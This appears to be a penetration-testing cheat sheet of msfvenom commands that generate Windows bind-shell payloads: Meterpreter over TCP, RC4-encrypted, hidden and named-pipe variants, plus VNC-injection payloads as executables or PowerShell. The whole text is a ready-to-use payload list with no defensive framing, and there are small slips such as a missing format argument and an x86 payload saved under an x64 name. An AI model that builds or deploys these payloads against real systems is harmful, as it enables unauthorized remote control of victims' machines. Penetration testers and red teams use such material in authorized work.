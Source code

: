 # Bind Shells

## Interactive Shells

TODO: Take the namepipe meterpreter payloads to the post exploitation section for lateral movement

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-met-x64.exe`

`$ msfvenom -p windows/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f -o met-x86.exe`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x64.exe`

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x64.exe`

## VNC

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p cmd/windows/powershell/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f raw -o vnc-x86.ps1`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86-64.exe`